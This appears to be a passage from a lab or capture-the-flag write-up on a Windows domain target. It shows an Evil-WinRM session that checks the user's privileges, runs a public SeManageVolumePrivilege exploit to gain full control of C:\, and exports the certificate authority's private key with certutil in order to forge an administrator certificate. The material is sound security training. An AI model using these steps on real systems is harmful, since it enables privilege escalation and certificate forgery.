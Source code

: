 # Privilege Escalation
Then let's check the privileges of `ryan.k`
```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
```

`SeManageVolumePrivilege` seems like be exploitable
Follow this exploit 
```
https://github.com/CsEnox/SeManageVolumeExploit
```

Let's upload `SeManageVolumeExploit.exe` and run it
We can found All users belonging to the Users group now have Full Control permissions on C:\
```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> .\SeManageVolumeExploit.exe
Entries changed: 844

DONE

*Evil-WinRM* PS C:\Users\Ryan.K\Documents> icacls C:/windows
C:/windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)
           BUILTIN\Pre-Windows 2000 Compatible Access:(RX)
           BUILTIN\Pre-Windows 2000 Compatible Access:(OI)(CI)(IO)(GR,GE)
           CREATOR OWNER:(OI)(CI)(IO)(F)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files

```

Then let's export the private key of the certificate, and then download it to the local machine to forge the administrator's certificate
```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -exportPFX my "Certificate-LTD-CA" C:\ca.pfx
my "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
```